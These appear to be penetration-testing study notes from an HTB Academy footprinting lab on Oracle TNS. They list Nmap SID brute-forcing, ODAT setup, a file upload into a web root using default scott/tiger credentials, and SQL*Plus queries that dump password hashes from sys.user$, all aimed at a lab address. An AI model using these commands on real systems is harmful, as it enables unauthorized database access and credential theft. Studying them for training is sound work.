 # Oracle TNS

> *Source HTB Academy Footprinting module*

- Usually on TCP port 1521

The Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks.  
Initially introduced as part of the Oracle Net Services software suite, TNS supports various networking protocols between Oracle databases and client applications, such as IPX/SPX and TCP/IP protocol stacks.  
As a result, it has become a preferred solution for managing large, complex databases in the healthcare, finance, and retail industries.  
In addition, its built-in encryption mechanism ensures the security of data transmitted, making it an ideal solution for enterprise environments where data security is paramount.

- Oracle 9 default password `CHANGE_ON_INSTALL`

## Nmap

- `sudo nmap -p 1521 -sV 10.129.204.235 --open`
- `sudo nmap -p 1521 -sV 10.129.204.235 --open --script oracle-sid-brute` SID bruteforcing

## ODAT

- [official repo](https://github.com/quentinhardy/odat.git)
- Install it in a python env
  - `git clone https://github.com/quentinhardy/odat.git`
  - `cd odat/`
  - `source .odatenv/bin/activate`
  - `pip install colorlog termcolor pycryptodome passlib python-libnmap`
  - `pip install cx_Oracle`
  - `pip install argcomplete`
- `./odat.py all -s 10.129.204.235`
- `./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt`file upload 
  - `curl -X GET http://10.129.204.235/testing.txt` test if the file upload worked

## SQLplus

- `sqlplus scott/tiger@10.129.204.235/XE` login (requires username and password)
- `select table_name from all_tables;` get all tables
- `select * from user_role_privs;` Database enumeration
- `select name, password from sys.user$;` Extract password hashes